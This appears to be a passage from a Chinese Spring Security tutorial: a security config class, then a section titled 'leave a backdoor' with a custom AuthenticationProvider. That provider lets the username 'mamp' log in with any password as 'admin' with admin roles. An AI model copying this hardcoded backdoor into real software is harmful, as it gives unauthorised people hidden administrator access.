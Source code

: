 

### 编写配置类



```java
@EnableWebSecurity
public class SecurityConfig extends WebSecurityConfigurerAdapter {

    @Resource
    UserService userService;
    @Override
    protected void configure(AuthenticationManagerBuilder auth) throws Exception {
        auth.userDetailsService(userService);
    }

    @Bean
    PasswordEncoder passwordEncoder(){
        return new BCryptPasswordEncoder();
    }
}
```





## 留个后门

自定义一个类来实现AuthenticationProvider，完成用户的认证工作，然后加入到配置文件中。

### 自定义验证类

```java
@Component
public class BackdoorAuthenticationProvider implements AuthenticationProvider {
    @Override
    public Authentication authenticate(Authentication authentication) throws AuthenticationException {
        String name = authentication.getName();
        String password = authentication.getCredentials().toString();

        //利用mamp用户名登录，不管密码是什么都可以，伪装成admin用户
        if (name.equals("mamp")) {
            Collection<GrantedAuthority> authorityCollection = new ArrayList<>();
            authorityCollection.add(new SimpleGrantedAuthority("ROLE_ADMIN"));
            authorityCollection.add(new SimpleGrantedAuthority("ROLE_USER"));
            return new UsernamePasswordAuthenticationToken(
                    "admin", password, authorityCollection);
        }
        return null;
    }

    @Override
    public boolean supports(Class<?> authentication) {
        return authentication.equals(
                UsernamePasswordAuthenticationToken.class);
    }
}
```
